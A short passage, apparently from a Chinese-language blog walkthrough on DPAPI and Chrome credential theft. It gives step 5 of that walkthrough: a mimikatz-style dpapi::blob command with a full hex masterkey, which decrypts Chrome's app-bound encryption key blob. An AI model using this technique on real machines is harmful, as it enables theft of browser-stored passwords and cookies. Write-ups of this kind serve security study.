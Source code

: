 ![image-20250929195241887](/assets/posts/2025-09-30-a-journey-into-dpapi-and-chrome-theft/image-20250929195241887.png)

（5）通过得到的机器/系统 MasterKey 解密 “app_bound_encrypted_key.bin” 中的 Data BLOB。

```powershell
dpapi::blob /in:".\app_bound_encrypted_key.bin" /masterkey:"9d9a733d63da3b0759c15a6c70bdad83fd39a333238399acbbda2963049a971931f2b6e25df0c1288e3ef0d5cc1195712421134d66d043b937c8de867938fc66"
```
